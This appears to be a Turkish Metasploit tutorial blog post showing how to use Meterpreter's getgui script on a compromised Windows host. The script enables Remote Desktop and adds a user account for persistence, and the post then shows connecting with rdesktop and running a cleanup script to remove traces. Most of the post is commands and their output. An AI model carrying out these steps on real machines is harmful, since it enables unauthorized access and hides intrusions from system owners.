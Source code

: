 ```yaml
---
draft: false

title:  'MSF Remote Desktop Modülü'
date: '2017-05-05T13:30:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Metasploit Framework içerisinde Meterpreter ile bir shell açtığınızda yapılabilecek işlemlerden bir tanesi de uzak masaüstü bağlantısını hayata geçirmek olabilir. Bunun için\_getgui\_komutu oldukça kullanışlıdır." 
 
url:  /tr/msf-remote-desktop-modulu/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



Metasploit Framework içerisinde Meterpreter ile bir shell açtığınızda yapılabilecek işlemlerden bir tanesi de uzak masaüstü bağlantısını hayata geçirmek olabilir. Bunun için `getgui` komutu oldukça kullanışlıdır.



Bu yazımızda `getgui` komutunu kullanarak sistemde bir kullanıcı oluşturup ardından `rdesktop` komutu ile bu bilgisayara nasıl bağlanabileceğimizi göreceğiz.



## Uzak Masaüstü Bağlantısı



Hedef bilgisayarda Meterpreter shell açtığınızı varsayıyoruz. Şimdi işe `getgui` komutunu kullanarak görsel bağlantı sağlamak için gerekli olan kullanıcı adı ve parolaya ihtiyacımız var. Böyle bir kullanıcı adı ve parolası oluşturduğunuzda kalıcılık sağlamış olursunuz.



##  Aracı



Öncelikle `getgui` yardım başlıklarına bakalım.


```bash
meterpreter **>** run getgui -h
Windows Remote Desktop Enabler Meterpreter Script
Usage: getgui -u  -p 
Or:    getgui -e

OPTIONS:

    -e   Enable RDP only.
    -f   Forward RDP Connection.
    -h   Help menu.
    -l   The language switch
         Possible Options: 'de_DE', 'en_EN' / default is: 'en_EN'
    -p   The Password of the user
```



##  Kullanıcı Ekleme



Genel olarak kullanımda `-u` kullanıcı adını, `-p` parolayı belirtmek için kullanılır. `getgui` komutunu aşağıdaki örneğe benzer şekilde kullandığınızda sisteme yeni bir kullanıcı eklemiş olursunuz.


```bash
meterpreter **>** run getgui -u loneferret -p password
**[*********]** Windows Remote Desktop Configuration Meterpreter Script by Darkoperator
**[*********]** Carlos Perez carlos_perez@darkoperator.com
**[*********]** Language detection started
**[*********]**   Language detected: en_US
**[*********]** Setting user account **for **logon
**[*********]**   Adding User: loneferret with Password: password
**[*********]**   Adding User: loneferret to local group ''
**[*********]**   Adding User: loneferret to local group ''
**[*********]** You can now login with the created user
**[*********]** For cleanup use command: run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc
meterpreter **>**
```



##  Bağlantısı



Artık kullanıcı oluşturuldu. Aynı ağda bulunan başka bir bilgisayardan, bu kullanıcı adı ve parolayı kullanarak uzak masaüstü bağlantısı yapabilirsiniz.


```bash
root@kali:~#: rdesktop -u loneferret -p password 192.168.101.108
```



## Log Temizleme



Hedef sistemde ne kadar çok oynama yaparsanız, log kayıtlarına kaydedilme ihtimaliniz de o kadar artar. Bu sebeple mümkün olduğunca yetkisiz işlem yapmamalı veya gereken yerlere müdahale etmekle yetinmelisiniz.



`getgui` ile oluşturduğunuz kullanıcı ve oturum bilgilerini log kayıtların temizlemek isteyebilirsiniz. Bunun için aşağıdaki komut örneği işinize yarayacaktır. Örnekte kullanılan `/root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc` dosyasının en güncel halini yine aynı klasör içinden kontrol edebilirsiniz.


```bash
meterpreter **>** run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc
**[*********]** Running Command List ...
**[*********]**   Running command execute -H -f cmd.exe -a "/c net user hacker /delete"
Process 288 created.
meterpreter **>**```
